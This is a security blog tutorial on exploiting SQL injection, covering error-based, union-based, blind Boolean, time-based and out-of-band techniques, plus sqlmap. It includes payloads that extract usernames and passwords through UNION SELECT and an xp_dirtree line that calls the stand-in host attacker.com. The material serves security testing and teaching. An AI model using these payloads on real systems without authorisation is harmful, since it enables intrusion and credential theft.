 ```yaml
---
title: "Exploiting SQL Injection Vulnerabilities"
seoTitle: "SQL Injection Exploits Explained"
seoDescription: "Guide to exploiting SQL injection vulnerabilities: techniques, examples, and automated tools for web application security testing"
datePublished: Fri Jun 28 2024 04:16:50 GMT+0000 (Coordinated Universal Time)
cuid: clxy6luun000f09ky9zp5ao51
slug: exploiting-sql-injection-vulnerabilities
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1719509239858/dadd4a58-d48a-46fe-b78b-c62ba75601af.jpeg
tags: sql-injection, application-security, cybersecurity-1, ethicalhacking

---
```


**Introduction**

In the past sections, we discussed the different types of SQL injection vulnerabilities and how to test an application to see if it's vulnerable to SQL injection. In this section, we'll dive into how to exploit SQL injection vulnerabilities to achieve your end goal. This will vary depending on the type of SQL injection vulnerability you're dealing with. We'll cover five different types: error-based SQL injection, union-based SQL injection, Boolean-based blind SQL injection, time-based blind SQL injection, and out-of-band SQL injection.

### 1\. Error-Based SQL Injection

**Concept:** Error-based SQL injection is an in-band SQL injection technique that forces the database to generate an error, giving the attacker information upon which to refine a query.

**Exploitation Steps:**

1. **Submit SQL Specific Characters:**
    
    * Input characters like single quote (`'`), double quote (`"`), or a comment delimiter (`--`).
        
2. **Observe the Application’s Response:**
    
    * Look for error messages that reveal database information.
        

**Example:**

```sql
SELECT * FROM users WHERE username = 'admin' --' AND password = 'password';
```

**Expected Result:** The application throws an error message similar to:

```plaintext
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''--' AND password = 'password'' at line 1
```

This indicates the application is vulnerable to SQL injection.

### 2\. Union-Based SQL Injection

**Concept:** Union-based SQL injection leverages the UNION SQL operator to combine the results of two queries into a single result set. To use the UNION operator, two rules must be followed:

* The number and order of the columns must be the same in both queries.
    
* The data types must be compatible.
    

**Exploitation Steps:**

1. **Determine Number of Columns:**
    
    * Use `ORDER BY` clause or inject null values.
        
2. **Find Useful Data Types:**
    
    * Probe columns to see if they can hold string data.
        

**Example:**

```sql
SELECT title, cost FROM products WHERE id = 1 UNION SELECT null, null -- ;
```

**Expected Result:**

```plaintext
All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.
```

By incrementing the number of null values, you determine the number of columns.

3. **Exploit the Vulnerability:**
    

```sql
SELECT title, cost FROM products WHERE id = 1 UNION SELECT username, password FROM users -- ;
```

**Expected Result:** The result set combines product titles and costs with usernames and passwords from the users table.

### 3\. Boolean-Based Blind SQL Injection

**Concept:** Boolean-based blind SQL injection relies on sending Boolean conditions to the server and observing differences in responses to infer data.

**Exploitation Steps:**

1. **Submit Boolean Conditions:**
    
    * Send a condition that evaluates to false and observe the response.
        
    * Send a condition that evaluates to true and observe the response.
        

**Example:**

```sql
SELECT * FROM users WHERE username = 'admin' AND '1'='1'; -- True condition
SELECT * FROM users WHERE username = 'admin' AND '1'='2'; -- False condition
```

**Expected Result:**

* The first query returns the expected page.
    
* The second query returns a different page or an error.
    

### 4\. Time-Based Blind SQL Injection

**Concept:** Time-based blind SQL injection uses time delays in SQL queries to infer data from the database.

**Exploitation Steps:**

1. **Submit Time-Delay Payloads:**
    
    * Inject a payload that causes a delay if the condition is true.
        

**Example:**

```sql
SELECT * FROM users WHERE username = 'admin' AND IF(1=1, SLEEP(5), 0);
```

**Expected Result:** The application delays the response by 5 seconds, indicating the condition is true.

### 5\. Out-of-Band SQL Injection

**Concept:** Out-of-band SQL injection relies on triggering a network connection to a system that you control.

**Exploitation Steps:**

1. **Submit Out-of-Band Payloads:**
    
    * Inject payloads designed to trigger a network interaction.
        

**Example:**

```sql
SELECT * FROM users WHERE username = 'admin'; exec xp_dirtree '\\attacker.com\share';
```

**Expected Result:** The server attempts to access [`attacker.com`](http://attacker.com), indicating a successful out-of-band interaction.

### Automated Exploitation Tools

**SQLMap:**

![sqlmap: automatic SQL injection and database takeover tool](https://sqlmap.org/images/screenshot.png align="left")

SQLMap is a powerful, open-source tool used to automate the process of detecting and exploiting SQL injection vulnerabilities. It can identify the type of SQL injection and exploit it to extract data, gain a shell, and more. To read more click [`here`](https://sqlmap.org/)

**Usage Example:**

```bash
sqlmap -u "http://example.com/vulnerable.php?id=1" --dbs
```

**Expected Result:** SQLMap identifies the database type and lists all available databases.

**Web Application Vulnerability Scanners:**

These tools scan web applications for various vulnerabilities, including SQL injection. They automate the discovery process but often require manual verification and exploitation. Read more [`here`](https://owasp.org/www-community/Vulnerability_Scanning_Tools)

### Conclusion

Understanding and exploiting SQL injection vulnerabilities require a methodical approach and familiarity with SQL concepts. By following the steps outlined for each type of SQL injection, you can effectively identify and exploit these vulnerabilities to test the security of web applications. Tools like SQLMap and web application vulnerability scanners can aid in this process, but manual testing and validation remain crucial for comprehensive security assessments.